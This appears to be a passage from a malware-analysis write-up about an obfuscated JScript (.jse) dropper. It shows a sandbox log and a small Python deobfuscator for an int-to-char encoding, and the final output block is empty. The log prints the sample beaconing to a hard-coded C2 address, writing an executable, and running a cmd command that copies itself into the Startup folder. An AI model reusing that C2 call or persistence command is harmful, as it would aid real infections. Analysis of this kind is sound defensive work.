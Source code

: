 ```sh
[info] XMLHTTP https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20
[info] IOC: The script opened URL https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20 with XMLHTTP
[info] Header set for https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20:
[info] Data sent to https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20:
[info] POST https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20
[info] IOC: The script fetched an URL.
[info] Returning HTTP 200 (Success) with fake response payload 'console.log("EXECUTED DOWNLOADED PAYLOAD");'
[info] IOC: The script checked to see if a file exists.
[info] IOC: The script checked to see if a file exists.
[info] The sample created a file named 'example-file.exe'.
[info] IOC: The script wrote file 'example-file.exe'.
[info] Saved beautified.js.1.results/5b430cf8-3c84-4093-906b-8bfe2cca604d (3 bytes)
[info] beautified.js.1.results/5b430cf8-3c84-4093-906b-8bfe2cca604d has been detected as ASCII text, with no line terminators.
[info] IOC: The script created a resource.
[info] IOC: The script read a file.
[info] IOC: The script ran the command 'cmd /U /Q /C copy /Y "C:\Users\MyUsername\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\StartUp\seter64.jse" ".jse" && del /Q/F ""'.
```

Now let's try out the second methodology of scripting out a deobfuscator for the decoded `.jse` instead of dynamically running it.  

### Making a deobfuscator
Since the whole obfuscation is based on converting from int to char (by also adding number 5), all we need to do is match the expression using regex, add 5 and convert:  
```python
import re
import sys

# Usage: python deobfuscate.py ii_decoded.js
if len(sys.argv) < 2:
    print("Usage: python deobfuscate.py <input_file>")
    sys.exit(1)

input_file = sys.argv[1]

# Regex to match '47' out of return String["fromChar" + "Co" + "" + "de"]((+'47') + 5)
pattern = re.compile(r"\+'([^']*)'")

with open(input_file, 'r', encoding='utf-8') as f:
    for line in f:
        matches = pattern.findall(line)
        for match in matches:
            try:
                val = int(match) + 5
                # Possible values that a byte can have
                if 0 < val <= 255:
                    print(chr(val), end='')
            except ValueError:
                pass
```
Running the deobfuscator, we get the following output:  
```
```